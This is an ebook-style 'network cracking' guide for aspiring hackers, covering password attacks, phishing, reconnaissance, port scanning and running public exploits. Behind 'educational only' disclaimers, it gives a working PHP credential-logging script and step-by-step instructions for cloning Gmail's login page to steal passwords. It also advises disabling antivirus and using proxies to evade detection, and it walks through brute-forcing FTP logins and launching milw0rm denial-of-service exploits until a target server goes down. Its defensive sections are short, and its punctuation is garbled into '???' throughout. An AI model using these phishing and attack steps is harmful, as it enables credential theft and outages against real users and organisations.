


A Comprehensive Guide To Network Cracking.
***This guide is for educational purpose ONLY.***
[The developer of this educational app/manual/guide will not be held responsible for the use or misuse of this app/manual/guide.]
This guide provides a step by step instruction to execute ethical network penetration & intrusion to detect & fix trapdoors in networks & lone systems.
The Ultimate Network Cracking Guide
[Learn What it Takes to Crack Even the Most Secure Systems.]
Liability Disclaimer: The information provided in this app is to be used for educational purposes only. This app creator is in no way responsible for any misuse of the information provided.
All of the information in this app is meant to help the reader develop a hacker defense attitude in order to prevent the attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly.
The word ???Hack??? or ???Hacking??? in this eBook should be regarded as ???Ethical Hack??? or ???Ethical hacking??? respectively. You implement the information given at your own risk.>>>
Introduction
What is a hacker?
A hacker is someone who likes to tinker with electronics or computer systems. Hackers like to explore and learn how computer systems work, finding ways to make them do what they do better, or do things they weren???t intended to do. There are two types of hackers:
White Hat ??? These are considered the good guys. White hat hackers don???t use their skills for illegal purposes. They usually become Computer Security experts and help protect people from the Black Hats.
Black Hat ??? These are considered the bad guys. Black hat hackers usually use their skills maliciously for personal gain. They are the people that hack banks, steal credit cards, and deface websites.
These two terms came from the old western movies where the good guys wore white hats and the bad guys wore black hats.
Now if you???re thinking, ???Oh boy! Being a black hat sounds awesome!???, Then I have a question for you. Does it sound cool to live in a cell the size of your bathroom and be someone???s butt buddy for many years? That???s what I thought.
Hacker Hierarchy
Script kiddies ??? These are the wannabe hackers. They are looked down upon in the hacker community because they are the people that make hackers look bad. Script kiddies usually have no hacking skills and use the tools developed by other hackers without any knowledge of what???s happening behind the scenes.
Intermediate hackers ??? These people usually know about computers, networks, and have enough programming knowledge to understand relatively what a script might do, but like the script kiddies they use pre-developed well-known exploits ( –a piece of code that takes advantage of a bug or vulnerability in a piece of software that allows you to take control of a computer system) to carry out attacks
Elite Hackers ??? These are the skilled hackers. They are the ones that write them any hacker tools and exploits out there. They can break into systems and hide their tracks or make it look like someone else did it. You should strive to eventually reach this level.
What does it take to become a hacker?
Becoming a great hacker isn???t easy and it doesn???t happen quickly. Being creative helps a lot. There is more than one way a problem can be solved, and as a hacker you encounter many problems. The more creative you are the bigger chance you have of hacking a system without being detected. Another huge quality you must have is the will to learn because without it, you will get nowhere. Remember, Knowledge is power. Patience is also a must because many topics can be difficult to grasp and only over time will you master it.
Programming
Do I Really Need It?
You might be asking yourself, do I even need to learn a programming language? The answer to that is both yes and no. It all depends on what your goals are. Nowadays, with all the point and click programs out there, you can be a fairly good ethical hacker without knowing any programming. You can do some effective hacking if you understand all of the security tools very well. Even if you understand what???s going on in the background of these programs, most people will still classify you as a script kiddie. Personally I think you should learn some programming.
Even if it???s the very basics, it???ll give you a much better understanding of what???s going on. Also, once you learn how to program well, you???ll be able to develop your own exploits, which is great in many ways:
- You???ll be considered an elite hacker.
- Imagine a black hat discovers a vulnerability and codes an exploit for it that no one else knows about. The black hat would be able to take down thousands of machines before anyone discovers and patches the vulnerability.
- You will feel so much more satisfied having created your own program or exploit. I promise you this.
So my advice is, don???t settle for being a point and click hacker. Take some time to understand even just the basics of programming and an entire new world of hacking will open up to you.
Where should I start?
Many people finally decide that they are going to begin learning a programming language, but don???t know where to start. I believe that before you begin to learn a programming language, you should first master HTML (HyperText Markup Language). HTML is part of what makes up all of the website pages you see on the internet. HTML is very easy to learn and it???ll get you used to looking at source code.
From there I would suggest starting your programming life with C. C is one of the most popular languages, and it is what makes up the majority of the exploits out there today. C also makes up some of the most powerful hacking programs and viruses that are out there today.
Best way to learn
So how should I go about learning the programming language of my choice?
Purchase a beginners book on your programming language.
Before you choose the book, make sure you read the reviews to make sure it???s a good choice. It is important that once you begin learning the programming language through your book, you don???t take big breaks. Taking long breaks will cause you to forget things you learned in the beginning that apply to the rest of the book.
- Do ALL of the practice problems provided in the book. The only way you will become better is by applying what you learn.
- When something difficult comes up or something that makes no sense to you, don???t avoid or skip it. Instead embrace it! This is how you actually learn. If you still don???t understand it after going over it multiple times, find someone that can help you.
- Join a programming forum. Search for a website on your programming language that has a large user base. There will be many professionals on there that will be able to help you when you get stuck.
- Practice. Practice Practice. Think of ideas for fun programs that you could make and program them.
Linux
What is it?
Linux is a free, open-source, UNIX-like operating system. As you continue to learn how to hack, you will realize how important it is to learn how to use the Linux operating system. Need some convincing? Here are a couple facts:
Millions of servers on the internet run on the Linux operating system.
You must learn the operating system to be able to penetrate these web servers.
Some of the best hacking programs only run on Linux.
Choosing a distribution
A Linux distribution is the Linux kernel (- central component of an operating system.) plus a collection of applications. If you are a beginner to Linux, I would suggest starting with Ubuntu as your first Linux distribution.
It is simple to install and very user friendly. To see a full list of the most popular distributions can go to http://distrowatch.com .
Running Linux
There are many ways to get Linux up and running. I will show you the most popular methods below.
Live CD
Live CD???s are usually used to test and play around with a Linux distribution. With a Live CD, you do not have to install the OS (operating system) onto your hard drive because it runs off the disc on boot.
Because it is running off a disc, you won???t be able to permanently modify any system files. Everything you do will be stored temporarily in your RAM. Below are the steps to create a Live CD.
- Download the Ubuntu Live CD .iso file from www.ubuntu.com .
Download and install IsoRecorder at
http://isorecorder.alexfeinman.com/isorecorder.htm and burn the Ubuntu .iso file onto a blank CD with the software.
Once you have downloaded and installed the IsoRecorder software locate the Ubuntu image file, right click and select Copy image to CD and follow the rest of the steps shown in the image.
Restart the computer with the newly made CD in the CD-ROM.
If your computer doesn???t boot from the CD and continues into Windows, you must change your computer???s boot order.
You can do this by restarting your computer and going into BIOS. You get there by hitting the correct key constantly. If you see the Windows screen, it means you missed it. The key varies from system to system.
Usually it is a function key such as F10. It may also be the DEL or ESC key. The key should be shown on your screen immediately after you boot up your computer. It is usually the key pointing to ???Setup???.
Picture property of www.cyberwalker.com
Once you are in the BIOS, select ???Boot Sequence??? and make sure CD-ROM is set to the first one. If it???s not, move it up. All what this does is makes sure your CD- ROM boots before your hard drive.
Picture property of www.cyberwalker.com
If all went well, you should see the Ubuntu boot options screen.
You will first see a window full of countries. Once you select yours you will see the main Ubuntu screen.
From here choose the first option to try Ubuntu without any risks. Once the Ubuntu desktop has loaded and you decide you like what you see, you have the option to install it by clicking on the install button on the desktop.
Wubi
Wubi is my favorite option. With the Wubi installer you can install and uninstall Ubuntu as any other Windows application. You can use the Live CD version to install Wubi if you followed the steps above and downloaded it. Or you can download the full 5 gigabyte version from http://wubi-installer.org/ .
If you downloaded the full 5 gigabyte file, double click it to run it. If you are using the previously downloaded Live CD version, then insert your Ubuntu Live CD. A Ubuntu CD menu should come up.
Choose: Install inside Windows
In the next window, choose the appropriate options and click install.
Wait for it to fully install and hit finish. Simple, eh?
Reboot the computer. Before Windows loads, a screen will come up that gives you an option to boot into Windows or Ubuntu. Arrow down to Ubuntu and hit <ENTER>.
Ubuntu will begin to load. Since this is your first time starting Ubuntu, it will install and configure a bunch of things, and restart again.
Boot into Ubuntu again and you???re good to go!
VirtualBox
This is by far my favorite way to run any Linux distribution if I just want to try it out. With VirtualBox you can run Linux within a Windows or Mac computer.
First download VirtualBox at http://www.virtualbox.org/wiki/Downloads .
- Install it.
- Open it up and click New on the top.
3. Hit Next.
4. Name it and choose Ubuntu from the drop-down list.
Choose the amount of RAM you would like to dedicate to running
Linux. Choose about ?? to ?? of your total RAM. I have 2 gigs of RAM, so I chose 512 MB.
Hit Next.

Here we choose whether we would like to create a dynamic or fixed hard disk image. If you have lots of space on your hard disk, I would go with a dynamic image so if you choose to download lots of programs it won???t be a problem.
If you have limited drive space, you should go with a fixed-size image so that you don???t have to worry about going over too much.
Choose the amount of gigabytes you would like to dedicate to running Linux. I would go with 2 GB at the least.
Simply hit Finish.It automatically selects the image you just created. Hit Next.
You???re almost done! Hit Finish.You are now back at the main page. Here you will click CD/DVD-ROM.
Check Mount CD/DVD Drive and choose ISO Image File.If you downloaded the Ubuntu image file in the beginning, locate it and select it.
If you haven???t downloaded it yet, go to the beginning of this chapter where I have a step-by-step guide.
Hit Select.
You will come back to where you started. Hit OK.
You will now see the main screen again. Click on START in the top left corner.You will see Ubuntu boot up in a small pop-up screen. Choose the option ???Try Ubuntu???. If you see a list of countries instead of the list shown below, select yours and hit <ENTER>.
Make sure you are working in the Virtual Environment by clicking into the Ubuntu window.
Learning Linux
Now that you have Ubuntu up and running you might be wondering what to do next. You should now start to learn and eventually master the Linux distribution of your choice.
You???ll find that almost every distribution has a massive community that is ready to help you, and it???s only a Google search away!
For example if you choose to stick with Ubuntu, http://ubuntuforums.org/ has a community of 700,000 members! So if you have a question or problems ask away, there will always be someone out there with a solution.
I would also recommend buying a book. Reading is the best way to gain knowledge. Below I have a list of some great books you should take a look at.
- A Practical Guide to Linux Commands, Editors, and Shell Programming
- Understanding the Linux Kernel, Third Edition
- A Practical Guide to Ubuntu Linux
- How Linux Works
There are many websites on the internet dedicated to teaching the community about Linux. Below I have a list of a few good ones:
- Official Linux Website
- Begin Linux
- Linux Tutorials
For those of you that are visual learners, below are two great video courses.
- Introduction to Linux
- Ubuntu Linux Tutorials
The resources listed above are more than enough for you to master the ins and outs of Linux. So choose a book, website, or video and begin to take in some more knowledge.
Passwords
Nowadays, passwords are the only form of security on most websites and computer systems. It has become one of the most common and easiest ways for a hacker to gain unauthorized access to your computer or network.
Password Cracking
Before we get into cracking passwords with programs, I will explain a couple old-fashioned ways to obtain someone???s password.
- Social Engineering ??? Social engineering is when a hacker takes advantage of trusting human beings to get information from them. For example, if the hacker was trying to get the password for a co- workers computer, he (Even though I use ???he???, hackers are of both genders, and I just chose to use ???he??? in these examples.) could call the co-worker pretending to be from the IT department. The conversation could be something like:
Bob- ???Hello Suzy. My name is Bob and I???m from the IT department. We are currently attempting to install a new security update on your computer, but we can???t seem to connect to the user database and extract your user information. Would you mind helping me out and letting me know your password before my boss starts breathing down my neck? It???s one of those days, ya??? know????
Suzy would probably feel bad for Bob and let him know her password without any hesitation. BAM! She got social engineered. Now the hacker can do whatever he pleases with her account.
- Shoulder surfing ??? Shoulder surfing is exactly what it sounds like. The hacker would simply attempt to look over your shoulder as you type in your password. The hacker may also watch weather you glance around your desk, looking for a written reminder or the written password itself.
- Guessing ??? If you use a weak password, a hacker could simple guess it by using the information he knows about you. Some examples of this are: date of birth, phone number, favorite pet, and other simple things like these.
Now that we have the simple low-tech password cracking techniques out of the way, let???s explore some high-tech techniques. Some of the programs I will use in my examples may be blocked by your anti-virus programs when you attempt to run them.
Make sure you disable your anti- virus program when you decide to download and explore them.
There are different ways a hacker can go about cracking a password. Below I will explain and give an example of each way.
Dictionary Attacks
A dictionary attack is when a text file full of commonly used passwords, or a list of every word from the dictionary is used against a password database.
Strong passwords usually aren???t vulnerable to this kind of attack. In the following example, I will use Brutus, a very common password cracker, to show a dictionary attack against an ftp server.
Brutus is a Windows only program, but at the end of this chapter I will list a couple more password crackers, some of which are made for Mac, Windows, and Linux.
Before I get into the example, you must first know what an FTP server is. FTP stands for File Transfer Protocol.
FTP is a simple way to exchange files over the internet. If a hacker got FTP access to my website, he could delete/upload anything he wants on my server. An FTP address looks similar to a website
address except it uses the prefix ftp:// instead of http://. I set up an FTP server
on my computer so I could demonstrate. You can get Brutus at http://www.hoobie.net/brutus/ .
First the hacker would choose a target. In this case it???s my home computer and the IP address for your home computer is 127.0.0.1 .
By going to ftp://127.0.0.1 I get a pop-up box asking for a username and password

Next the hacker would launch a program similar to Brutus and attempt to crack the password.
In the target you put the IP address of the website and to the right select the appropriate option, which in this case is FTP.
The default port is 21 but some websites change this to make them a little more secure. If you find out that the port isn???t 21, you can find the right one by doing a port scan. We will get into this later in the book.
If you don???t know any of the usernames for the FTP server, then you will have to get a list of the most common usernames.
For a dictionary attack you will have to choose the pass mode Word List and browse and select the file containing your word list. You can get some good password lists at:
http://packetstormsecurity.org/Crackers/wordlists/ . Below are examples of what a username and password list might look like.
Once you hit Start the program will attempt to connect to the server and begin to try all the possible combinations from your lists.
If you???re lucky, eventually it???ll get the right Username:Password combination. As you can see below, it got the correct combination of username ??? admin and password ??? password.
A smarter hacker would use a proxy when using a program like this.
What a proxy does is cloaks your IP address by sending your connection request through another computer before going to the target.
This is a smart idea because as you will see in the image below, Brutus leaves a huge log of your presence on the target server.In place of the IP address 127.0.0.1 would be the hackers IP address.
Footprints like these get a hacker caught and into a lot of trouble with the law.
Brute-force Attacks
With time, brute-force attacks can crack any passwords. Brute-force attacks try every possible combination of letters, numbers, and special characters until the right password is found. Brute-force attacks can take a long time. The speed is determined by the speed of the computer running the cracking program and the complexity of the password.
Below I will show you how Brutus can be used against the same FTP server but this time using the brute-force option.
Put in the target and port the same way you did for the dictionary attack.
For the pass mode choose Brute-force and click range. If you have an idea of what the password might be, then you can choose the right option. For example if you know a site that requires your password to be a certain length then you???ll know what to put down as a

minimum length thus narrowing down the end results and shortening the cracking process.
I chose lowercase alpha which has the second smallest amount of combinations. Even at second smallest it came up with 321, 272,407 possible password combinations. Now you know why it can take so long to crack one password.
Rainbow Tables
A Rainbow table is a huge pre-computed list of hash values for every possible combination of characters. A password hash is a password that has gone through a mathematical algorithm that transformed it into something absolutely foreign.
A hash is a one way encryption so once a password is hashed there is no way to get the original string from the hashed string.
A very common hashing algorithm used as security to store passwords in website databases is MD5.
Let???s say you are registering for a website. You put in a username and password. Now when you submit, your password goes through the MD5 algorithm and the outcome hash is stored in a database.
Now since you can???t get the password from the hash, you may be wondering how they know if your password is right when you login. Well when you login and submit your username and password, a script takes your password and runs it through the md5 algorithm.
The outcome hash is compared to the hash stored in the database. If they are the same, you are admitted.
If I were to run the word ???cheese??? through the md5 algorithm, the outcome would be fea0f1f6fede90bd0a925b4194deac11 . Having huge tables of every possible character combination hashed is a much better alternative to brute-force cracking.
Once the rainbow tables are created, cracking the password is a hundred times faster than brute-forcing it. I will show an example of rainbow table cracking when we get into Windows password cracking.
Phishing
Phishing is the process of stealing sensitive information, such as usernames, passwords, and bank information, by pretending to be someone you???re not. An example of this would be if you receive and e-mail from a hacker pretending to be your bank.
In this e-mail, it might tell you that you need to update your account before it expires, and then the hacker provides a link. Once you click on the link, you arrive at a website that looks exactly like your actual bank page.
In reality it???s just a perfect replica, and when you input your login details, it sends it to the hackers email or stores it on his web server. Hackers that create the best, most deceiving phishing web pages are knowledgeable in the area of HTML and the PHP programming.
Below I will show a simple example of some of the steps a hacker might take to create a phishing website. By seeing the steps a hacker would take, will help you defend against such an attack.
First the hacker chooses a target. The most popular targets for phishing attacks are e-mail services such as Hotmail and Gmail because they are the most common and once a hacker gets access to your e-mail, he also gets access to a load of other user information for all the other websites you use.
In this example we will pretend the hacker chose Gmail as his target.
After choosing his target, the hacker will go to the website and save the whole main page. I use Mozilla Firefox ,(highly recommend using this browser for its security and customization.) So I would go to www.gmail.com and click File -> Save page as??? , or simply hit <CTR> + S
which does this automatically. Choose where you would like to save the web page and hit Save.
Once you have it saved, rename ServiceLogin.htm to index.htm.
The reason you want to name it ???index??? is so when you upload it to a web host and someone goes to your link, the index page is the first page that shows up.
Next the hacker would create a PHP script to do his dirty deed of stealing your information. Below is a simple PHP script that logs and stores your login details when you click ???Sign in???. To see how it works, copy and paste the following code into notepad.
Next save it into the same directory as you saved the Gmail page, and name it phish.php. In addition to the phish.php page, create a new empty text file and name it list.txt.
<?php // This marks the beginning of the PHP script. Header(???Location:
http://www.google.com/accounts/ServiceLogin?service=mail&passive= true&rm=false&continue=http%3A%2F%2Fmail.google.com%2Fmail%2F %3Fui%3Dhtml%26zy%3Dl&bsv=1k96igf4806cy<mpl=default<mplcac
he=2 ???);
// once you click ???Sign in??? in the fake website, this redirects you to the real Gmail website, making the whole process look more legit.
$handle = fopen(???list.txt???, ???a???); // this tells the server to open the file
???list.txt??? and get it ready for appending data. Which in this case is your username and password.
Foreach($_GET as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, ???=???);
fwrite($handle, $value); fwrite($handle, ???\r\n???);
- // This section simply assigns all the information going through this form to a variable. This includes your username and password.
Fwrite($handle, ???\r\n???); // This writes your details to the file ???list.txt???
fclose($handle); // This simply closes the connection to the file ???list.txt???
exit;
?> // Marks the end of the PHP program.
So far you should see the following in your folder:
Now the hacker would have to edit the main Gmail page to include his PHP script. To see what the hacker would do, open up the main Gmail page named index.htm with notepad.
Hit <CTR> + F , or go to Edit -> Find , type in action and hit ???Find Next???.
This will highlight the first occurrence of the word ??? action??? in the script and you should see the following:
There are two ???action??? occurrences in the script so make sure you have the right one by looking at the ??? form id??? name above. Change the link
between action = ??? ??? to phish.php . This will make the form submit to your PHP phish script instead of to Google. After the link you will see the code:
Change the word ???POST??? to ??? GET??? so that it looks like method=???GET???.
What the GET method does is submit the information you type in through the URL so that the PHP script can log it.
Save and close the file.
Next the hacker would upload the files up to a free webhost that supports PHP. With a simple Google search you can come up with a bunch that fall under this category.
Once all the files are uploaded, you must give writing permissions to the ???list.txt??? file. Every hosting company should have a CHMOD option next to each file. Select this option and change the file permission for ???list.txt??? to 777. If you can???t figure out how to do this, ask people that use the same host or simply Google something similar to: ???yourwebhostname chmod???.
Once everything is up and ready to go, go to the link your host provided you for your website and you should see the Gmail page replica. Type in a username/password and click Sign in. This should have redirected you to the real Gmail page.
Now go take a look at your list.txt file by going through your hosting file manager or going to http://www.yourwebhosturl.com/youraccount/list.txt. Although this is the most common, the web host you use may provide a different looking URL. Now if I put a username of ???myusername??? and a password of ???mypassword??? then ???list.txt??? would now look like the following:
As you can see if you fell for this the hacker would have your email and password. Scary, eh?
Countermeasures
I will now show you all the countermeasures you should take to protect yourself from all of the password cracking attacks talked about in this chapter.
Social Engineering
To protect yourself from social engineering attacks like the one discussed in this chapter you must learn to question the possible attacker.
If you get a phone call from someone, and you think that there may be a chance that the person isn???t who he says he is, then ask him some questions that he should be able to answer to establish his legitimacy.
Some professional social engineers study the company before attacking, so they might know all the answers. That???s why, if you still have some doubts, you should ask the head of whatever department the attacker is from to find out if he is legit. Better safe than sorry.
Shoulder Surfing
When you type in your password make sure there is no one behind you attempting to peak. If there is, turn around and drop kick him/her in the face. No not really.
Also, make sure you don???t keep any sticky notes laying around that have your password or password hints on them.
Guessing
To prevent this attack from happening, never use a password like your birth date, your mother???s maiden name, your pets name, your spouse???s name, or anything that someone may be able to guess.
Dictionary Attacks
Dictionary attacks are very simple to prevent. Don???t use a password that is in the dictionary. Some people may think that if they use a word from the dictionary but replace most of the letters with a number, then they are safe. They are not.
There are 1337 speak dictionary???s out there too. Basically what 1337 speak is, is changing a word like ???animal??? to 4n1m41. For a secure password, I would recommend using a phrase such as ???doyoulikecheese?88???.
Brute-force Attacks
Brute-force attacks may be prevented by creating a very long password and using many numbers and odd characters.
The longer the password the longer it takes for the hacker to crack your password. If after a few days the hacker hasn???t been able to crack your password through a brute-force attack, then he is very likely to just give up.
Like I said in the dictionary attacks, creating a phrase for your password is your best option for staying secure.
Rainbow Tables
You can avoid rainbow table cracking by simply making your password extremely long. Creating tables for passwords that are long takes a very long time and a lot of resources. That is why there aren???t many of these tables available.
Phishing
Phishing attacks are very simple to avoid. When you are asked to put your personal information into a website, look up into the URL bar. If for example you are supposed to be on Gmail.com and in the URL bar it says something completely different like gmail.randomsite.com, or gmail.com, then you know this is a fake. When you are on the real Gmail website, the URL should begin with www.google.com anything else is a fake.
More Programs
Now that you know what password cracking is, you might be interested in learning some more of the popular cracking software I have listed below:
- Can and Abel
- John the Ripper
- THC Hydra
- SolarWinds
- RainbowCrack
Network Hacking
Footprinting
Footprinting is the act of gathering information about a computer system and the companies it belongs to. Footprinting is the first step hackers take in their hacking process. Footprinting is important because to hack a system the hacker must first know everything there is to know about it.
Below I will give you examples of the steps and services a hacker would use to get information from a website.
First, a hacker would start gathering information on the targets website.
Things a hacker would look for are e-mails and names. This information could come in handy if the hacker was planning to attempt a social engineering attack against the company.
Next the hacker would get the IP address of the website. By going to http://www.selfseo.com/find_ip_address_of_a_website.php and inserting the web site URL, it will spit out its IP address.
Next the hacker would Ping the server to see if it is up and running. There???s no point in trying to hack an offline server. http://just-ping.com pings a website from 34 different locations in the world. Insert the website name or IP address and hit ???Ping???. If all packets went through, then the server is up.
Next the hacker would do a Whois lookup on the company website. Go to
http://whois.domaintools.com and put in the target website. As you can see this gives a HUGE amount of information about the company. You see the company e-mails, address, names, when the domain was created, when the domain expires, the domain name servers, and more!
A hacker can also take advantage of search engines to search sites for data.
For example, a hacker could search a website through Google by searching ???site:www.the-target-site.com??? this will display every page that Google has of the website.
You could narrow down the number of results by adding a specific word after. For example the hacker could search ???site:www.the- target-site.com email???. This search could list several emails that are published on the website. Another search you could do in Google is ???inurl:robots.txt this would look for a page called robots.txt. If a site has the file ???robots.txt???, it displays all the directories and pages on the website that they wish to keep anonymous from the search engine spiders. Occasionally
you might come across some valuable information that was meant to be kept private in this file.
Now that the basics of footprinting have been explained, we will move on to port scanning.
Port Scanning
The point of port scanning a server is to detect its open ports the port???s listening services. Once a hacker knows all the services running on your server, he could search for possible vulnerabilities they may have and exploit them to take control of your website. In the port scanning example we will use the most popular port scanner: Nmap. The Nmap Security Scanner is available for both Mac and Windows users: http://nmap.org/download.html . The example will be shown using the Nmap GUI (Graphical User Interface). Otherwise known as Zenmap.
First the hacker would choose a target and place it in the target box. As you can see the ???Command:??? section gets updated as well. This is what the command would look like if you were running the CLI version.
Next the hacker would choose the ???Profile:???, or in other words, the scan type. A smart hacker would go with a quick and quiet scan.
Full version detection scans are very loud and could raise suspicion on the other end. Stay away from those options because as you will see later on, there are other ways to get that information.

A sample scan result may look like the following:
As you can see it found a few open ports and listed the services that are run on them. Below I have a list of some of the most popular ports/services on the internet.
20 FTP data (File Transfer Protocol)
21 FTP (File Transfer Protocol)
22 SSH (Secure Shell)
23 Telnet
25 SMTP (Send Mail Transfer Protocol)
43 whois
53 DNS (Domain Name Service)
68 DHCP (Dynamic Host Control Protocol)
80 HTTP (HyperText Transfer Protocol)
110 POP3 (Post Office Protocol, version 3)
137 NetBIOS-ns
138 NetBIOS-dgm
139 NetBIOS
143 IMAP (Internet Message Access Protocol)
161 SNMP (Simple Network Management Protocol)
194 IRC (Internet Relay Chat) 220 IMAP3 (Internet Message Access Protocol 3)
443 SSL (Secure Socket Layer)
445 SMB (NetBIOS over TCP)
1352 Lotus Notes
1433 Microsoft SQL Server
1521 Oracle SQL
2049 NFS (Network File System)
3306 MYSQL
4000 ICQ
5800 VNC 5900 VNC
8080 HTTP
Along with finding out what ports are running, the hacker needs to also find out what operating system the server is running. There are always a lot of operating system vulnerabilities out there to choose from. So by knowing the operating system, the hacker???s chances of taking over the server go up. As you can see, there is an option on Nmap to detect the operating system, but this scan is very loud and easily detected so it is better to avoid it if possible. A simple way to determine what the server is running is by getting a 404 error page. You can get there by going to a page that doesn???t exist. For example the hacker would put in ???www.targetsite.com/asdlfjasl.php??? this page will most likely not exist and bring him to the 404 page. On most sites the 404 error page displays the server operating system along with its version. Many sites nowadays don???t display this by putting up custom 404 pages so this may not always work.
If you are planning on using the CLI version of Nmap, or want a more in depth look at all the commands take a look at the Nmap manual: http://nmap.org/book/man.html .
Now that the hacker has got all the running services and open ports on the
targets system, he will now have to find out what versions the server is running. This is where ???Banner Grabbing??? comes in.
Banner Grabbing
Now that the hacker has a full list of services running on the target system, to be able to exploit them, he has to first figure out what software and version the service is. One way the hacker can get this information, is to telnet into service port. In the example below, we will use command prompt on Windows
- Start -> Run -> Type ???cmd??? -> Enter). If you are on a Mac, you will be using the
terminal. Note: If you are using Windows Vista, then telnet is not installed by default. You can install it by doing the following simple steps.
o Click Start then select Control Panel.
o Select Programs and Features.
o Select Turn Windows features on or off.
o Select the Telnet Client option and click OK.
o A box will appear to confirm installation. The telnet command should now be installed.
First, the hacker would choose one of the open ports that were revealed in the Nmap scan to continue with and attempt to exploit.
Let???s say that when the hacker scanned his target, he found the port 21 open. As you can see on the chart above, port 21 is FTP. To find out what FTP software is running he would use telnet by running the command:
telnet www.targetsite.com 21
As you can see above, I ran this against my computer (localhost). So a hacker would insert a target URL in place of localhost.
Next, it would connect to the target and display a banner telling the hacker the software and its version as shown below. This is the information the hacker needs to continue and begin searching for vulnerabilities for the software discovered.
If the above method doesn???t work for you, then simply use Nmap???s full version detection option to get the information.
Searching for Vulnerabilities
Now that the hacker has the name of the software being used and its version number, he would take that information and search a couple vulnerability databases for an exploit. If there???s an exploit available, he will run it against the server and take complete control. If there isn???t any, he would move onto another open port and try again on a different service.
Some of the most popular exploit databases are:
- Milw0rm
- SecurityFocus
- osvdb
By searching ???filezilla??? on milw0rm, fortunately the hacker won???t find any exploits for my current version of the FTP software. Now most people would move on to another port to try and find another possible vulnerability, but this doesn???t mean every hacker will.
If a skillful hacker is determined, he may try to locate a vulnerability in the current software version and develop an exploit for it. In the hacker community, this new vulnerability would be called a ???0-day???. 0-day vulnerabilities are very valuable in the hacker community for a few reasons.
No one knows about the vulnerability, so the hacker could start hacking hundreds of websites before the vulnerability is discovered and patched.
The hacker could sell the vulnerability for thousands of dollars.
Discovering vulnerabilities and creating an exploit for it shows that the hacker is very skillful and raises his ranks in the hacker community.
You might be wondering why 0-days are worth so much. It???s very simple. I???ll explain it with a simple equation.
Hacker + 0-Day + Company Servers = Bad Reputation = Loss of Money
Now before we get into the actual penetrations, I will discuss a couple of the common type of attacks used against discovered vulnerabilities.
Denial-of-Service (DoS) ??? There are many types of DoS attacks, but they all have one purpose: to make the target server unavailable for legitimate users.
The most common type of DoS attack is when the hacker sends a flood of information to the target server causing it to use up all of its resources, and in return pushing it offline, or causing it to deny requests from legitimate users trying to access it.
Buffer Overflow (BoF) ??? A buffer overflow happens when a program attempts to store more data into a buffer, or a data storage area, then it was meant to hold. Because the buffer was only meant to hold a certain amount of data, the extra information overflows into other buffers causing them to be overwritten with malicious code created by the hacker. Once this code is executed, the hacker can receive full control of the server.
If you search the Milw0rm exploit database, you will see that in many exploit titles it reads local exploit or remote exploit. Below are their definitions:
Local Exploit ??? To run a local exploit, you must first have access and privileges on the machine. Local exploits are usually used to escalate ones privileges to admin or root. In other words, it allows an ordinary user to gain root privileges.
Remote Exploit ??? A remote exploit is pretty much the same thing as a local exploit except that it isn???t run locally, but launched from anywhere across the internet.
A hacker usually has to use a combination of both remote and local exploits to gain full control of a system. For example, the hacker may have been able to gain regular privileges with a remote exploit attack, and then be able to escalate to root privileges with the help of a local exploit.
Penetrating
So now you might be wondering: Once the hacker finds the right exploit, how does he go about running it against the target and penetrating the server? This will all be explained in this chapter.
As you search Milw0rm or any of the other couple exploit database websites provided in this chapter, you will notice that the exploits are created in many different types of programming languages. Below I will list a few of the most common programming languages used, and how a hacker would compile and run them against a server.
PHP
PHP exploits are very common. PHP exploit code usually starts with <?php
and ends in ?> . Let???s say the hacker wanted to do some temporary damage to a server running FTP Server 0.9.20. If he was to search milw0rm he would come up with the following DOS exploit: http://milw0rm.com/exploits/2901 and run it against the server. Below are the steps the hacker would take.
First the hacker would need to install PHP onto his computer. WAMP is a free web server that comes with PHP. If you are using a Mac then you must install MAMP . Next, paste the PHP exploit into notepad or any word processor and save it as ???exploit.php???.
You will have to know a little PHP to edit the target address. On line 13 of this exploit you will see:
$address = gethostbyname(???192.168.1.3???); here you will have to edit in the IP address of the target. Every exploit is different.
Some you have to know what to edit and some have runtime instructions. Save this edited file into the PHP directory on your server that contains the PHP executable file.
In WAMP the directory would be C:\wamp\bin\php\php5.2.5 , of course the last directory version number changes with newer versions.
Next open up the command prompt or terminal if you are using a Mac, and go to the PHP directory by using the CD (change directory) command followed by the directory location.
Now it???s time to run the exploit. To run it simple type in ???php exploit.php??? and hit enter. You should get a couple errors.
When skilled hackers create exploits, they sometimes insert mistakes or extra code so that script kiddies with no programming knowledge wouldn???t be able to use them. The above is a simple example. If you go to line 18 of this exploit , will see the line
$junk.=???../../../sun-tzu/../../../sun-tzu/../../../sun-tzu???;
This line was inserted to throw off the script kiddies and by simply removing it, the error will disappear. Just another reason why it???s helpful to learn how to program.
Also every now and then you will receive other errors such as the one the second picture shows above. These errors have to do with the server configurations. Now as a hacker, you have to learn a lot on your own. By going around asking simple questions like this all the time will make you look bad and the most common response you will receive: www.google.com .
Google is your friend, so take advantage of it! So starting now, begin to use Google, and if you are still stuck, then you can ask help on community forums.
Once the errors are fixed and the program is running, a DoS attack will be launched the target website up until you exit the command screen.
If the target server can???t handle much, you may be able to see the affect of your exploit by going to the site and clicking around. If it is working, the site will begin to lag and it???ll take a long time to load pages. Eventually the server may go down completely.
Perl
Running Perl exploit scripts is just as easy as running PHP scripts.
Download and install the appropriate version of ActivePerl.
Next the hacker would find an exploit for vulnerability. In this example we
will use the following example: http://milw0rm.com/exploits/6581 for WinFTP Server 2.3.0. This is also a Denial of Service (DoS) exploit.
Edit the options like the target server and others as needed. Then save the file as ???exploit.pl???. As you can see Pearl exploits begin with ???!/usr/bin/perl”.
Open CMD or Terminal and change into the directory with the exploit using the CD (change directory command). Then run the exploit by typing:
- perl exploit.pl???. The attack has begun. Simple, eh?
Python
Python is also a common programming language used in creating exploits.
You can download python from http://www.python.org/download/. The steps to running a Python exploit are just as easy as the ones for Perl. See if you can get the exploit: http://milw0rm.com/exploits/3523 up and running. Hint: Python files end with .py .
C/C++
C/C++ are the most popular programming languages used in developing exploit code. Some C/C++ code can be compiled with any compiler and on any operating system.
